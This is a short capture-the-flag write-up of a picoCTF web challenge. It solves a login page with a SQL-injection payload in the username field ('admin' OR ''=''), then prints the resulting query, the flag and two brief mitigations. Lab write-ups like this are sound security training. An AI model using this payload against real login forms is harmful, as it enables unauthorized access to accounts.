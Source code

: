 ## CTF: Web AY25
Challenge: SQLiLite

Category: web

Points:

Difficulty:  Intermediate 

## Instructions

Can you login to this website?  
Hint:  
1. nqzva vf gur hfre lbh jnag gb ybtva nf.
## Solution
Name is SQL based -> try to do a sql injection attack
* Has a username and passwod to type in to login
* Checked source code and nothing stands out

 When trying to log in using 

        username: hi
        password: passwod

I recieve this response 

        SQL query: SELECT * FROM users WHERE name='hi' AND password='passwod'

Gives me the SQL qurey 
>Need to change the SQL query so it can log in for me.  

Find out what to type into the login and password to login
After looking it up I need to add
>" OR 1=1' or another equaivalance  
>
> Needs to be added to the username so the SQL query reads it

How to login

    USERNAME : admin' OR ''='
    PASSWORD: doesn't matter

I recieve this response

    SQL query  :SELECT * FROM users WHERE name='admin' OR ''='' AND password='there'  
    Login success 

In the source code of that page I found

    <p hidden="">Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>

## Flag

picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

## Mitigation

1. Two factor authenication 
2. Filter inputs to deny SQL commands in username and password
